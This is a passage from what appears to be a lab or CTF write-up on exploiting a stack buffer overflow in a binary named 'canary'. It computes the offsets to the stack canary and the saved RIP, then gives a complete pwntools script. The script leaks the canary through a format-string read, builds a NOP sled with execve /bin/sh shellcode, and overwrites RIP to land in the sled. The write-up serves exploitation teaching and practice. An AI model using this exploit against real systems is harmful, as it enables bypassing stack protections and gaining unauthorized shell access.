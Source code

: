 ![image](./pics/ripoffset.png)

RIP is at **0x7fffffffe3c8** while input file's last bytes are stored at **0x7fffffffe3b0** (we can also see the appended 0xa or \n). We need another 4 bytes to reach canary's location. After writing 8 bytes of canary at this location, we'll need another 8 bytes to reach rip's location. So we'll need the following pattern:
```
104B of [SHELLCODE/NOP] + 8B of [CANARY_VALUE] + 8B of junk + 8B of new RIP
```

#### Forming The Shellcode and Writing the Exploit
Now we have the structure for our payload. But we still need a shellcode. We can generate our own shellcode or we can look for a shellcode that works for our target. I've used [this](http://shell-storm.org/shellcode/files/shellcode-603.php) shellcode, it's 30 bytes long and will left us with 74 bytes of nop sled. We also need to replace RIP with an address somewhere in the middle of our nop sled. We can find this address by inspecting the stack after injecting the payload just like the way we found RIP offset. We can try `0x7fffffffe558` for example.

We can write our code using pwntools:
```python
from pwn import *
junk = b'junkjunk'
rip = b'\x58\xe5\xff\xff\xff\x7f\x00\x00'
shellcode = b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'

nop_sled = b'\x90' * (104 - len(shellcode))

proc = process(['./canary','.%p'*21])

canary = proc.recvline().decode('utf-8').split('.')[-1].strip('\n')
print(canary)
canary = p64(int(canary,16))

payload  = nop_sled
payload += shellcode
payload += canary
payload += junk
payload += rip

print(payload)

with open("input.txt", "wb") as f:
    f.write(payload)

proc.interactive()
```